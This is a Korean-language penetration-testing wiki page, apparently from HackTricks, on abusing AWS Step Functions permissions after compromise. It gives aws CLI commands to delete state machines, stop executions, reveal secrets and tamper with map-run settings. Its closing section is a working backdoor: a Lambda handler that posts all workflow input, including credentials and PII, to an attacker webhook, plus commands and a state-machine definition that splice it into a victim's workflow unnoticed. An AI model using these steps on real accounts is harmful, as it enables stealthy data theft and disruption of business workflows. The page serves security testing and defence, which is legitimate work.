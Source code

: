 # AWS - Step Functions Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Step Functions

For more information about this AWS service, check:

{{#ref}}
../../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

이 권한은 실행 내의 비밀 데이터를 **노출**할 수 있게 합니다. 이를 위해 Inspection level을 TRACE로 설정하고 revealSecrets 파라미터를 true로 설정해야 합니다.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

이 권한을 가진 공격자는 state machine과 그 버전들 및 alias들을 영구적으로 삭제할 수 있습니다. 이는 중요한 워크플로를 중단시키고 데이터 손실을 초래하며, 영향을 받은 state machine을 복구하고 복원하는 데 상당한 시간이 필요하게 만들 수 있습니다. 또한 공격자는 사용된 흔적을 은닉하고 포렌식 조사를 방해하며, 필수 자동화 프로세스와 상태 구성을 제거하여 운영을 마비시킬 수 있습니다.

> [!NOTE]
>
> - state machine을 삭제하면 해당 state machine에 연결된 모든 버전과 alias도 함께 삭제됩니다.
> - state machine alias를 삭제해도 이 alias를 참조하는 state machine 버전은 삭제되지 않습니다.
> - 하나 이상의 alias가 현재 참조하고 있는 state machine 버전은 삭제할 수 없습니다.
```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```
- **잠재적 영향**: 중요한 워크플로 중단, 데이터 손실 및 운영 중단.

### `states:UpdateMapRun`

이 권한을 가진 공격자는 Map Run의 failure configuration 및 parallel setting을 조작할 수 있어 허용되는 maximum number of child workflow executions를 증가시키거나 감소시켜 서비스의 동작과 성능에 직접적인 영향을 미칠 수 있습니다. 또한 공격자는 tolerated failure percentage and count를 변조하여 이 값을 0으로 낮출 수 있는데, 이럴 경우 항목이 하나라도 실패하면 전체 map run이 실패하여 state machine execution에 직접적인 영향을 주고 중요한 워크플로를 방해할 수 있습니다.
```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```
- **잠재적 영향**: 성능 저하 및 중요한 워크플로우의 중단.

### `states:StopExecution`

이 권한을 가진 공격자는 모든 상태 머신의 실행을 중지하여 진행 중인 워크플로우와 프로세스를 방해할 수 있습니다. 이는 트랜잭션 미완료, 업무 운영의 중단, 잠재적인 데이터 손상으로 이어질 수 있습니다.

> [!WARNING]
> 이 동작은 **express state machines**에서 지원되지 않습니다.
```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```
- **잠재적 영향**: 진행 중인 워크플로의 중단, 운영 중단 및 잠재적 데이터 손상.

### `states:TagResource`, `states:UntagResource`

공격자는 Step Functions 리소스에 태그를 추가, 수정 또는 제거하여 조직의 비용 할당, 리소스 추적 및 태그 기반 액세스 제어 정책을 방해할 수 있습니다.
```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```
**Potential Impact**: 비용 할당, 리소스 추적 및 태그 기반 액세스 제어 정책의 중단.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

다음 권한을 가진 사용자 또는 역할을 탈취한 공격자는:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowUpdateStateMachine",
"Effect": "Allow",
"Action": "states:UpdateStateMachine",
"Resource": "*"
},
{
"Sid": "AllowUpdateFunctionCode",
"Effect": "Allow",
"Action": "lambda:UpdateFunctionCode",
"Resource": "*"
}
]
}
```
...는 Lambda backdooring과 Step Function logic manipulation을 결합하여 **high-impact and stealthy post-exploitation attack**을 수행할 수 있습니다.

이 시나리오는 피해자가 **AWS Step Functions를 사용하여 민감한 입력을 처리하는 워크플로우를 오케스트레이션**한다고 가정합니다(예: credentials, tokens, 또는 PII).

예시 피해자 호출:
```bash
aws stepfunctions start-execution \
--state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
--input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```
If the Step Function is configured to invoke a Lambda like `LegitBusinessLogic`, the attacker can proceed with **two stealthy attack variants**:

---

####  Lambda 함수 업데이트

attacker는 Step Function (`LegitBusinessLogic`)에서 이미 사용 중인 Lambda 함수의 코드를 수정하여 입력 데이터를 은밀하게 exfiltrate합니다.
```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
--function-name LegitBusinessLogic \
--zip-file fileb://function.zip -profile attacker
```
---

#### Step Function에 악성 상태 추가

또는 공격자는 Step Function 정의를 업데이트하여 워크플로우 시작 부분에 **exfiltration state**를 삽입할 수 있다.
```malicious_state_definition.json
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "OriginalState",
"States": {
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
"End": true
}
}
}

```

```bash
aws stepfunctions update-state-machine \
--state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
--definition file://malicious_state_definition.json --profile attacker
```
공격자는 상태 정의를 다음과 같이 더 은밀하게 업데이트할 수 있습니다
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "ExfiltrateSecrets",
"States": {
"ExfiltrateSecrets": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
"InputPath": "$",
"ResultPath": "$.exfil",
"Next": "OriginalState"
},
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
"End": true
}
}
}
이렇게 하면 피해자는 차이점을 알아차리지 못할 것입니다.

---

### 피해자 설정 (공격 맥락)

- A Step Function (`LegitStateMachine`)는 민감한 사용자 입력을 처리하는 데 사용됩니다.
- `LegitBusinessLogic`와 같은 하나 이상의 Lambda 함수를 호출합니다.

---

**Potential Impact**:
- 민감한 데이터(예: secrets, credentials, API keys, PII)의 은밀한 유출.
- 워크플로우 실행에서 눈에 띄는 오류나 실패가 없음.
- Lambda 코드나 실행 트레이스를 감사하지 않으면 탐지하기 어려움.
- 백도어가 코드나 ASL 로직에 남아 있으면 장기적인 지속성을 허용함.


{{#include ../../../../banners/hacktricks-training.md}}
